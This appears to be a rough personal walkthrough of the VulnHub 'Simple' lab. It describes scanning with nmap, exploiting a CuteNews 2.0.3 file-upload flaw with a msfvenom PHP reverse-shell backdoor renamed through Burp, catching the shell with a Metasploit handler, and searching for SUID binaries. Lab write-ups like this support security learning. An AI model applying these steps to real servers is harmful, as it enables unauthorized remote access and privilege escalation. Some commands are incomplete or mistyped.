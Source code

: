 # Vulnhub Simple Walkthrough

## Enumeration
`nmap -vvv -sC -sV -Pn <ip> -oA simple`

Sc : default scripts

sV : Default Versions

Pn : Skip Host discovery

Result: 

```
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-title: Please Login / CuteNews
```

## CuteNews

It seems like there is an Apache server running. 

There was a login form and it was running on Cutenews 2.0.3
  
I ran dirb just in case, but nothing special was found. 
  
So, I searched for known vulnerabilities with cutenews 2.0.3
  
`searchsploit cutenews`
  
Result:
  
`CuteNews 2.0.3 - Arbitrary File Upload                            | php/webapps/37474.txt`

[exploit database](https://www.exploit-db.com/exploits/37474)

  
I found out cutenews 2.0.3 has a file upload vulnerability that can lead to reverse shell.

First, attacker upload malicious file through file upload function. Then, execute the malicious file with the listener pre-running. Lastly, attacker has a shell opened. 
  
This known exploit was pretty old, and "tamper data" add on from firefox was not working well for me. 
  
I decided to work with Burpsuite instead.
  
## Creating PHP backdoor
  
I got help from [hackingarticles](https://www.hackingarticles.in/web-penetration-testing-tamper-data-firefox-add/) when writing the code. 

Basically, it is about creating php shell code using msfvenom and multi handler. I should study more about this area. 
  
After creating the file `payload.php.jpg` ,turn burpsuite on.
  
From the avatar change page, select the `payload.php.jpg` file and click submit button with the burp intercept on.
  
Burp will intercept and now change the `payload.php.jpg` into `payload.php`.
  

  
  ## sd
  Open the ph file from the <ip>uploads. 
  
  Have the msfconsole pre-ready for connection. 
  
  ``use ecploit/multi/handler
  set payload php/meterpreter/reverse_tcp
  set ...
  run
  ``

  
  `find / -perm -u=s -type f 2>/dev/null`
  
  `python -c 'import pty; pty.spawn("/bin/sh")'`
